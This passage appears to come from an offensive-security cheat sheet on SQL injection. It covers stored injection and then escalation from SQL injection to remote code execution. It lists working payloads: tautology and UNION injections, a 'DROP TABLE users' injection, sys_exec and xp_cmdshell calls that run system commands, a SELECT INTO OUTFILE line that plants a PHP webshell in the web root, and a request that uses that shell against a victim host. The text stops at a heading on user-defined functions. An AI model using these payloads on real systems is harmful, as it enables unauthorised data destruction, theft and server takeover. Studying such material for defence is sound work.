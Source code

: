
An attacker submits a username with a payload that is stored:
```text
' OR 1=1; --
```
Later, when the application retrieves the username, the payload is executed.
### 5. Stored SQL Injection
This occurs when the injected SQL code is stored in the database (e.g., in a user profile or comment) and executed when the data is retrieved and displayed.
Example:

An attacker submits a comment containing SQL code:
```text
'); DROP TABLE users; --
```

## SQL TO RCE

###🔥 Step 1: Identify SQL Injection
If the application is vulnerable, we can inject:

```text
' OR 1=1 --
```
Or use UNION to extract database details:

```text
' UNION SELECT @@version, user() --
```
 ### 🔥 Step 2: Escalate SQLi to RCE (MySQL Example)
### 🛠️ Method 1: Using `sys_exec()` or xp_cmdshell
🚀 Payload (If sys_exec() is enabled)
```text
SELECT sys_exec('whoami');
```
🔹 If successful, this command will execute whoami on the server.

🚀 Payload (If using Windows and MSSQL xp_cmdshell)
```text
EXEC xp_cmdshell 'whoami';
```
### 🛠️ Method 2: Writing a Webshell via SQL Injection
🚀 Payload (Using LOAD_FILE & INTO OUTFILE)
If file privileges are enabled, we can write a PHP webshell into the web directory:
```text
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```
✅ Now, the attacker can execute remote commands:
```text
http://victim.com/shell.php?cmd=id
```
### 🛠️ Method 3: Using MySQL User-Defined Functions (UDF)
If we can create a UDF (User Defined Function) in MySQL, we can execute system commands.
